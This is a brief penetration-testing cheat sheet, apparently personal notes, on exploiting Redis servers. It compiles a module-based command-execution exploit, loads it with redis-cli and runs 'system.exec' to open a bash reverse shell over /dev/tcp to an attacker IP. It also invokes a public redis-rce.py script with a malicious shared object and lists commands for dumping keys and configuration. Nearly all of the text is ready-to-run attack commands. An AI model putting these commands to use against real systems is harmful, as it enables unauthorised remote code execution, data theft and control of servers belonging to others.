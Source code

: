### Redis

```bash
cd RedisModules-ExecuteCommand
make

# Transfer file onto system through ftp
redis-cli -h $ip
MODULE LOCAL /var/ftp/pub/module.so
system.exec "id"
system.exec "bash -i >& /dev/tcp/192.168.45.178/80 0>&1"
```

```bash
# https://github.com/jas502n/Redis-RCE
python redis-rce.py -r $ip -p 6379 -L 192.168.45.178 -P 80 --file ./exp.so
```

```bash
info
AUTH <username> <password>
client list
CONFIG GET *
INFO keyspace # get databases
KEYS * 
GET <KEY>
```

"https://web.archive.org/web/20191201022931/http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html"